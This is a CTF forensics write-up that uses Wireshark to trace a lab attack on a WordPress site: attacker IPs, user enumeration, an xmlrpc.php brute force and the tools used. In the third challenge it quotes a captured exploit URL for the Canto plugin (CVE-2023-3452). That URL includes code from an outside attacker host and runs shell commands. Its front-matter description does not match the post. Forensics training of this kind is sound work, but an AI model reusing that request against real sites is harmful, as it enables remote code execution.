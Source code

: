 ```yaml
---
layout: post
author: kranthikvrm
title: 0xL4ugh CTF 2024 (PCAP Analysis) - Writeup
description: In this blog post, I am sharing my experiences from my first year at RGUKT Nuzvid, where I experienced new faces, challenges, and exciting opportunities on my journey towards becoming an engineer.
date: 2024-02-13 07:43:00 +0800
categories: [CTF Writeups]
tags: [CTF, CTF Writeups]
img_path: /images/0xL4ughCTF
image:
  path: 0xL_logo.png
pin: true
---
```


Hello buddy, I am Kranthi Kumar, a cybersecurity enthusiast. Recently I participated in the 0xL4ugh CTF, so I am writing how I solved these challenges:

## Challenge 1: WordPress - 1 [Easy]
```
Our WordPress site has experienced a security breach, and the precise method of compromise remains undetermined at present. We need your help to investigate what actually happened.

Q1. There were two attackers attempting to compromise our environment. What is the IP address of the victim, and what is the IP address of the first attacker?

Q2. What are the versions of the Apache and PHP servers deployed in our environment?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{IP1_IP2_apache1.2.3_php1.2.3}(no spaces)
```
<b>My approach:</b>

They gave us a wordpress.pcap file, so I started my analysis using Wireshark.

First things first, I filtered out `http.request traffic` to get a lead. I observed that the IP `192.168.204.132` tried accessing `/wordpress/robots.txt` and `/wordpress/xmlrpc.php`, and `GET /wordpress/wp-content/uploads/` paths. It is very clear that this is the attacker's IP.
![IP addresses found](1.png)

So, Q1 victim IP: 192.168.204.128  and attacker IP: 192.168.204.132

Following the HTTP stream gave me the server and php version information.

![server version found](2.png)

So the flag is `0xL4ugh{192.168.204.128_192.168.204.132_apache2.4.58_php8.2.12}`


## Challenge 2: WordPress - 2 [Medium]
```

Q1. During enumeration, the attacker tried to identify users on the site. List all the users that the attacker enumerated. Separate them with a colon. Sort them alphabetically.

Q2. After enumeration, a brute force attack was launched against all users. The attacker successfully gained access to one of the accounts. What are the username and password for that account, and what is the name of the page used for the brute force attack?

Flag Format: 0xL4ugh{A1_A2}

Example: 0xL4ugh{username1:username2_username:password_pageName.ext}
```

<b>My approach:</b>

As we already know the attacker IP, I filtered the traffic with the "POST" method as it is used to log in and the source IP as the attacker IP.

`ip.src == 192.168.204.132 && http.request.method == POST`

I found three login attempts and also the three usernames and passwords.
![login attempts](22.1.png)
![login attempts](22.2.png)
![login attempts](22.3.png)

So it's `a1l4m:demomorgan:not7amoksha` in alphabetical order.

Moving forward to Q2, to find out the brute force attack, I filtered traffic so that all HTTP traffic from and to `192.168.204.132` will be visible.

`((ip.src == 192.168.204.132) || (ip.dst == 192.168.204.132)) && http`

![brute force attempts](3.png)

I found 5 POST requests to the `/wordpress/xmlrpc.php` path. Following the HTTP stream revealed that the attacker tried the "wp.getUsersBlogs" command with two parameters to extract users.
![brute force attempts -1](3.1.png)

So for sure, the second parameter is the password that the attacker used. I saw too many failed attempts. I tried to filter only the successful attempts using

`(ip.dst == 192.168.204.132) && !(xml.cdata == "403") && (_ws.col.protocol == "HTTP/XML")`

The above filter or query, (ip.dst == 192.168.204.132): This part filters packets where the destination IP address is 192.168.204.132 and !(xml.cdata == "403") this part selects packets where the XML data field (xml.cdata) is not equal to "403". So, it excludes packets containing XML data equal to "403" and (_ws.col.protocol == "HTTP/XML"), this part filters packets where the protocol in the Wireshark column is "HTTP/XML".

I analyzed all the filtered packets, and the packet 147357 response says that the login successful. I found it by following the HTTP stream.
![brute force attempts -2](3.2.png)

So the username:password is `demomorgan:demomorgan`

And I know that the brute forced web page is `xmlrpc.php`
![brute force attempts -3](3.3.png)
With the all the information, I got the final flag, it is `0xL4ugh{a1l4m:demomorgan:not7amoksha_demomorgan:demomorgan_xmlrpc.php}`

## Challenge 3: WordPress - 3 [Hard]
```
Q1. Mention the names of the tools that the attacker used in the attack. (in alphabetical order)

Q2. There was a vulnerable plugin that the attacker exploited. What is the C2 server of the attacker, and what is the name of the plugin?

Q3. What is the version of the vulnerable plugin, and what is the CVE number associated with that plugin?

Flag Format: 0xL4ugh{A1_A2_A3}

Example: 0xL4ugh{tool1_tool2_C2_PluginName_1.2.3_CVE--}

```

<b>My approach:</b>

To solve Q1, I have to find the tools that the attacker used for the attack. Most of the times, checking the user-agent will give us this data. So let's check the HTTP traffic again.

With `(ip.src == 192.168.204.132) && http.request` filter

![user agent checking](4.1.png)

User-Agent: `WPScan v3.8.25 (https://wpscan.com/wordpress-security-scanner)`

Attacker tried SQL Injection attack using sqlmap. 
User-Agent: `sqlmap/1.7.12#stable (https://sqlmap.org)`
![user agent checking](4.png)
Sorting them in alphabetical order: `sqlmap_WPScan`

Moving forward to Q2, I have to find the vulnerable plugin that the attacker exploited.

so I used this filter `http contains "plugins"` and found the below leads.

![vulnerable plugin](4.2.png)

URL: `http://192.168.204.128/wordpress/wp-content/plugins/canto/includes/lib/download.php?wp_abspath=http://172.26.211.155:8000&cmd=whoami` and `cmd=ls`

I found that a plugin named "Canto" along with a command `whoami` and `ls` at the end of the URL. So this is the vulnerable plugin.

With the information in hand, I can say the answer for Q2 is `172.26.211.155_canto`.

Moving to Q3, and after some analysis, nothing was there related to plugin version and CVE. So I did a Google search, and the first hit shows that Canto 3.0.4 is vulnerable to CVE-2023-3452.
![vulnerable plugin details](4.3.png)
With the information gathered, the answer to Q3 is `3.0.4_CVE-2023-3452`. So the final flag is `0xL4ugh{SQLMap_WPScan_172.26.211.155_canto_3.0.4_CVE-2023-3452}`. 

Thank you for reading buddy ❤️
